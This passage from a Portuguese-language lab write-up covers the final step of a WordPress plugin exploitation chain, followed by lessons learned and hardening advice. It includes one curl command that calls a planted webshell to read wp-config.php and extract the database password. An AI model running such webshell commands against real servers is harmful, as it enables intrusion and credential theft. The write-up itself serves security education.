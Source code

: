 ### 4.2 - Lendo o Arquivo e Obtendo a Senha

Com o caminho exato do arquivo em mãos, um último comando `curl` foi executado. Desta vez, o comando `cat` foi usado para ler o conteúdo do arquivo, e o resultado foi filtrado com `grep` para exibir apenas a linha que continha a senha do banco de dados, a flag final do desafio.

```bash
curl "http://172.20.7.90/wp-content/plugins/caniveteplugin/canivete.php?cmd=cat%20/var/www/html/wp-config.php" | grep "DB_PASSWORD"
```
![Senha do Banco de Dados Revelada](Images/07-senha.png.png)


---

---


## ✅ Conclusão e Recomendações

Este laboratório demonstrou uma cadeia de exploração clássica e realista em um ambiente WordPress: da enumeração inicial à descoberta de uma vulnerabilidade em um plugin, seguida por um bypass de autenticação e, finalmente, a execução remota de código para capturar a flag.

**Principais aprendizados:**
-   **Plugins são o principal vetor de ataque:** A enumeração de plugins com ferramentas como o WPScan deve ser sempre o primeiro passo.
-   **Nem todos os exploits são diretos:** Foi necessário adaptar a abordagem, saindo de uma tentativa de manipulação de cookies no Burp para um comando `curl` mais específico que explorava a lógica de login social.
-   **Hardening de PHP funciona:** A possível desativação de funções como `system()` exigiu a criação de um webshell mais versátil (o "Canivete Suíço") para encontrar uma função de execução de comando que estivesse liberada.

**Recomendações de Segurança:**
-   Manter todos os plugins, temas e o core do WordPress sempre atualizados.
-   Remover ou desativar plugins que não estão em uso.
-   Implementar um Web Application Firewall (WAF) para mitigar ataques conhecidos.
-   Revisar e restringir as permissões de arquivos e diretórios no servidor.

